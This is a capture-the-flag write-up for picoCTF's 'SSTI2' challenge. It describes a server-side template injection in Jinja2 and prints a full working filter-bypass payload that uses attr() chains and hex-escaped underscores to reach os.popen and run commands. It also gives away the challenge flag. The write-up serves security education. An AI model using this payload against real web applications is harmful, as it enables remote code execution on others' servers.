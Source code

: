 # SSTI2 (Server Side Template Injection) (medium)


# Flag

`picoCTF{sst1_f1lt3r_byp4ss_a9824e27}`
# Solve

* First lets read about SSTI here : https://portswigger.net/web-security/server-side-template-injection

- ur allowed to input anything into the website's text box


- i used this payload : `{{3*3}}` which evaluated into `9`. this means we can inject code into the server and it will evauluate so it looks like `jinja` or `twig` is being used as the template engine.


- tried some other payloads from - https://github.com/payloadbox/ssti-payloads

- but we keep getting internal server error.


- i found a better repo : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

- now that we know its jinja2 or twig i tried a lot of payloads from a lot of resources and found out what all symbols are blacklisted. 

- Blocked Characters:

```
.

|

_

[]

|join
```

after a lot of searching for payloads without these symbols and reading a lot of websites like :

- https://onsecurity.io/article/server-side-template-injection-with-jinja2/

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

- https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756
- https://www.yeswehack.com/learn-bug-bounty/server-side-template-injection-exploitation


- I finally found a working payload in this website : 

-  https://onsecurity.io/article/server-side-template-injection-with-jinja2/

- `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('cat flag')()}}
`

this payload finally worked and i got RCE : 

![alt text](assets/rceJinja2.png)

now lets cat the flag : 

```js
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

The flag :  `picoCTF{sst1_f1lt3r_byp4ss_a9824e27}`




